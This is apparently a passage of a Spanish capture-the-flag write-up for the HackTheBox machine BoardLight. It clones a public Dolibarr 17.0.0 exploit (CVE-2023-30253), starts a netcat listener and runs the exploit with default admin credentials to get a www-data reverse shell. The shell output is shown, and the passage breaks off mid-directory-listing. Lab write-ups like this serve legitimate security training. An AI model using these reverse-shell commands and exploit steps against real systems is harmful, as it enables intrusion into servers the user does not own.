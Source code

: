   # Explotación de vulnerabilidades `Dolibar 17.0.0.1`
    
    Nos descargamos el `Exploit` y le damos permisos de ejecución `chmod +x exploit.py`
    
    ```python
    git clone https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253.git
    ```
    
    Nos ponemos en escucha 
    
    ```python
    nc -nlvp 9001
    listening on [any] 9001 ...
    ```
    
    Ejecutaremos el `exploit` y una vez acabe la ejecución tendremos acceso a la máquina
    
    ```python
    python3 exploit.py http://crm.board.htb admin admin <LHOST> 9001
    
    [*] Trying authentication...
    [**] Login: admin
    [**] Password: admin
    [*] Trying created site...
    [*] Trying created page...
    [*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
    ```
    
  # Acceso a la máquina
    
    Ya hemos obtenido acceso y podemos observar que somos el usuario `www-data`
    
    ```python
    nc -nlvp 9001
    listening on [any] 9001 ...
    connect to [10.10.16.56] from (UNKNOWN) [10.10.11.11] 44614
    bash: cannot set terminal process group (890): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$
    ```     
    
    Si aplicamos el comando `id` podemos ver que no estamos dentro de la máquina  objetivo y somos el usuario `www-data`
    
    ```python
    www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```
    
    Si nos dirigimos 2 directorios hacia atrás encontramos esto 
    
    ```python
    www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ cd ../..
    www-data@boardlight:~/html/crm.board.htb/htdocs$ ls
    accountancy  comm        document.php       ftp                  margin              public             ticket
    adherents    commande    don                holiday              master.inc.php      reception          user
    admin        compta      ecm                hrm                  modulebuilder       recruitment        variants
    api          conf        emailcollector     imports              mrp                 resource           viewimage.php
    asset        contact     eventorganization  includes             multicurrency       robots.txt         webhook
    asterisk     contrat     expedition         index.php            opcachepreload.php  salaries           webservices